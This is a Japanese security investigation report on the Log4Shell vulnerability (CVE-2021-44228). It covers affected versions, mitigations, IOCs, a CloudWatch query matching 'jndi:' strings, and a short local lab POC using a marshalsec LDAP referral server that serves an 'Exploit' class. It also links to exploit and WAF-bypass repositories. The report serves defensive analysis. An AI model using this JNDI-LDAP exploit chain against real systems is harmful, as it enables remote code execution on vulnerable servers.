

2021-12-14 log4shell(CVE-2021-44228) 調査レポート
log4j2 のゼロデイ脆弱性が発見されました。
https://www.itmedia.co.jp/news/articles/2112/10/news157.html
https://www.lunasec.io/docs/blog/log4j-zero-day/
log4j2 は Java のロギングライブラリで、Javaアプリで広く利用されている
import org.apache.logging.log4j.LogManager; import org.apache.logging.log4j.Logger; public class Log4j2Test { private static final Logger logger = LogManager.getLogger(Log4j2Test.class); public static void main(String[] args) { logger.error("error message"); } }2021/12/9、この log4j2 で RCE の脆弱性がPOCとともにtwitter投稿
- 容易に攻撃可能な脆弱性ということで、twitterではお祭り騒ぎ、各社緊急対応に追われている
- log4j2 で RCE できることから、log4shell と呼ばれている
https://twitter.com/knqyf263/status/1469264324334350339
https://github.com/YfryTchsGD/Log4jAttackSurface
CVE-2021-44228
https://nvd.nist.gov/vuln/detail/CVE-2021-44228
Apache Log4j2 <=2.14.1 設定、ログメッセージ、パラメータに使用される JNDI 機能は、攻撃者が制御する LDAP や他の JNDI 関連のエンドポイントから保護されません。ログメッセージやログメッセージのパラメーターを制御できる攻撃者は、メッセージのルックアップ置換が有効な場合、LDAP サーバーからロードされた任意のコードを実行できます。log4j 2.15.0 からは、この動作はデフォルトで無効になっています。以前のリリース（>2.10）では、システムプロパティ「log4j2.formatMsgNoLookups」を「true」に設定するか、クラスパスから JndiLookup クラスを削除することで、この動作を緩和することができます（例：zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class）。Java 8u121（https://www.oracle.com/java/technologies/javase/8u121-relnotes.html 参照）では、「com.sun.jndi.rmi.object.trustURLCodebase」および「com.sun.jndi.cosnaming.object.trustURLCodebase」をデフォルトで「false」に設定することで、リモートコードの実行から保護しています。
- Java Naming and Directory Interface (JNDI) は、Javaアプリがディレクトリサービスが提供するデータ・リソースを参照するための汎用API
- 本脆弱性は log4j2 のJNDI Lookup を悪用
- LDAP だけでなく、DNS や RMI でも同様の攻撃が可能
影響範囲
2.0-beta9 <= log4j <= 2.14.1
1.x については、12/14時点では影響を受ける可能性はあるが低リスクとの結論
Restrict LDAP access via JNDI by rgoers · Pull Request #608 · apache/logging-log4j2
JDK バージョン
6u211,7u201,8u191,11.0.1以上は影響なし- com.sun.jndi.ldap.object.trustURLCodebase=false となっているため
- NVDに記載の方法を試してみたが、JDK 8u121 で回避できなかった 🤔
8u191は 2018/10/26 にリリースされたもの
回避策
https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/
log4j 2.10.0 以上
- プロパティ設定 formatMsgNoLookups=true
- 環境変数を設定 LOG4J_FORMAT_MSG_NO_LOOKUPS=true
https://twitter.com/mattn_jp/status/1470027729466978306
log4j 2.10.0 未満
- org.apache.logging.log4j.core.lookup.JndiLookup クラスを安全なものに置き換える
Java アップデート
6u211, 7u201, 8u191, 11.0.1 以上
恒久対応
log4j を 2.15.0 にアップデート
ただし一部課題もあり、2.16.0 で完全に対策できる模様
POC

python -m SimpleHTTPServer 8800
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8800/#Exploit"
/Library/Java/JavaVirtualMachines/jdk1.8.0_112.jdk/Contents/Home/bin/java -cp "target/classes:/Users/kyohmizu/.m2/repository/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar:/Users/kyohmizu/.m2/repository/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar" Log4j2Test
https://github.com/christophetd/log4shell-vulnerable-app
スキャン状況
https://www.greynoise.io/viz/query/?gnql=tags%3A%22Apache%20Log4j%20RCE%20Attempt%22
IOC
- Domain: https://gist.github.com/superducktoes/9b742f7b44c71b4a0d19790228ce85d8
- IP: https://gist.github.com/gnremy/c546c7911d5f876f263309d7161a7217
AWS CloudWatch logs
fields @timestamp, @log, @message
| filter @message like 'jndi:'
| sort @timestamp desc
| limit 100
WAF について
- 続々とリリースされている
バイパスの方法もいろいろある
https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words
HotPatch
https://github.com/Cybereason/Logout4Shell
https://github.com/corretto/hotpatch-for-apache-log4j2
各サービス対応
- Keycloak: https://github.com/keycloak/keycloak/discussions/9078
- elastic: https://discuss.elastic.co/t/apache-log4j2-remote-code-execution-rce-vulnerability-cve-2021-44228-esa-2021-31/291476
- MWAA: https://aws.amazon.com/jp/blogs/opensource/amazon-managed-workflows-for-apache-airflow-unaffected-by-airflow-1-10-12-vulnerability/
新たな攻撃ベクター
https://nvd.nist.gov/vuln/detail/CVE-2021-45046
Apache Log4j 2.15.0 の CVE-2021-44228 に対応するための修正が、特定の非デフォルトの構成で不完全であることが判明しています。このため、ロギング構成がデフォルト以外のパターンレイアウトでコンテキスト検索（例えば、$${ctx:loginId}）またはスレッドコンテキストマップパターン（%X、%mdc、%MDC）を使用する場合、Thread Context Map（MDC）入力データを制御できる攻撃者が、JNDI検索パターンで不正な入力データを作成して、サービス拒否（DOS）攻撃となる可能性がありました。Log4j 2.15.0 は、JNDI LDAP ルックアップをデフォルトで localhost に制限しています。システムプロパティ
log4j2.noFormatMsgLookupをtrueに設定するなどの設定を含む以前の緩和策は、この特定の脆弱性を緩和するものではないことに注意してください。Log4j 2.16.0 では、メッセージルックアップパターンのサポートを削除し、JNDI 機能をデフォルトで無効にすることで、この問題を修正しています。この問題は、以前のリリース (<2.16.0) では、クラスパスから JndiLookup クラスを削除することで軽減できます (例: zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class)．
参考
https://www.ipa.go.jp/security/ciadr/vul/alert20211213.html
https://www.jpcert.or.jp/at/2021/at210050.html
https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://www.security-next.com/132414
https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/
https://piyolog.hatenadiary.jp/entry/2021/12/13/045541
https://github.com/zzwlpx/JNDIExploit
https://blogs.juniper.net/en-us/security/in-the-wild-log4j-attack-payloads
https://blog.cloudflare.com/actual-cve-2021-44228-payloads-captured-in-the-wild/